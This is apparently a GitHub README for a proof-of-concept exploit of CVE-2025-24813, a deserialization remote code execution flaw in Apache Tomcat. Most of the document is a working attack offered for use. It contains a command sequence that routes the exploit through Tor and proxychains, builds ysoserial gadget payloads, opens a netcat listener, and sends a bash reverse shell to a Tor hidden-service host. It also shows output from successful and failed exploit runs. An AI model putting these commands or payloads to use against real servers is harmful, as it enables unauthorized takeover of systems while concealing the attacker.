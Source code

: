 # CVE-2025-24813 Apache Tomcat RCE PoC
Proof of Concept (PoC) exploiting CVE-2025-24813, a Remote Code Execution (RCE) vulnerability in Apache Tomcat. The vulnerability allows an attacker to upload a malicious serialized payload to the server, leading to arbitrary code execution via deserialization when specific conditions are met.
---

## Description

**CVE-2025-24813** is a theoretical RCE vulnerability in Apache Tomcat that leverages improper handling of uploaded session files and deserialization mechanisms. By uploading a crafted payload to a writable directory (e.g., `/uploads/../sessions/`), an attacker can trigger deserialization, resulting in the execution of arbitrary commands on the target server.

---

## Prerequisites for Successful Exploitation

For this PoC to successfully exploit the vulnerability, the following conditions must be met:

1. **Apache Tomcat Version**: The target must be running a vulnerable version of Apache Tomcat.
2. **Writable Directory**: The server must allow PUT requests
3. **Deserialization Trigger**: The server must process the uploaded session file (e.g., via a GET request to `/index.jsp`) and trigger deserialization of the payload.
4. **Java Environment**: The attacker’s machine must have Java installed to generate payloads using `ysoserial` or compile Java-based payloads.
5. **ysoserial (Optional)**: If using the `ysoserial` payload type, the `ysoserial.jar` file must be available locally.

---

```bash
# change dns, using quad9 - change this to nameserver other than ISP
sudo mv /etc/resolv.conf /etc/resolv.conf.bak
sudo touch /etc/resolv.conf
echo -ne 'nameserver 9.9.9.9\nnameserver 149.112.112.112' | sudo tee -a /etc/resolv.conf

podman build -t cve-2025-24813 .

podman run -it --name cve-2025-24813 \
    --cap-add=net_admin \
    --device /dev/net/tun \
    -v /etc/resolv.conf:/etc/resolv.conf:ro \
    -p 127.0.0.1:8118:8118 -p 127.0.0.1:9050:9050 -p 127.0.0.1:9051:9051 \
    -d cve-2025-24813

podman exec -it cve-2025-24813 /bin/bash

# allow unsafe module access
JDK_JAVA_OPTIONS="$JDK_JAVA_OPTIONS --add-opens=java.base/java.util=ALL-UNNAMED"
JDK_JAVA_OPTIONS="$JDK_JAVA_OPTIONS --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED"
JDK_JAVA_OPTIONS="$JDK_JAVA_OPTIONS --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED"
export JDK_JAVA_OPTIONS

# proxychains python3 CVE-2025-24813.py <target_url> [options]

# probe1
proxychains python3 CVE_2025_24813.py http://XXX.XX.XXX.XXX:XXXX --ysoserial ./ysoserial.jar --payload_type ysoserial --no-ssl-verify --command whoami

# probe2
proxychains python3 CVE-2025-24813.py http://XXX.XX.XXX.XXX:XXXX --cmd whoami

# reverse shell: start listener
rlwrap nc -lvnp 4444

# open another term and set host var
LHOST=$(cat /var/lib/tor/hidden_service/hostname)

# method 1
proxychains python3 CVE_2025_24813.py http://XXX.XX.XXX.XXX:XXXX \
    --ysoserial ./ysoserial.jar \
    --payload_type ysoserial \
    --gadget CommonsBeanutils1 \
    --command "bash -c 'bash -i >& /dev/tcp/$LHOST/4444 0>&1'"

# method 2
proxychains python3 CVE-2025-24813.py http://XXX.XX.XXX.XXX:XXXX --cmd "bash -c 'bash -i >& /dev/tcp/$LHOST/4444 0>&1'"
```

## Output
* Successful Exploit:
```
[+] Server is writable via PUT: http://localhost:8081/check.txt
[*] Session ID: absholi7ly
[+] Payload generated successfully: payload.ser
[+] Payload uploaded with status 409 (Conflict): http://localhost:8081/uploads/../sessions/absholi7ly.session
[+] Exploit succeeded! Server returned 500 after deserialization.
[+] Target http://localhost:8081 is vulnerable to CVE-2025-24813!
[+] Temporary file removed: payload.ser
```

* Failed Exploit:
```
[+] Server is writable via PUT: http://localhost:8081/check.txt
[*] Session ID: absholi7ly
[+] Payload generated successfully: payload.ser
[-] Payload upload failed: http://localhost:8081/uploads/../sessions/absholi7ly.session (HTTP 403)
[-] Target http://localhost:8081 does not appear vulnerable or exploit failed.
[+] Temporary file removed: payload.ser
```
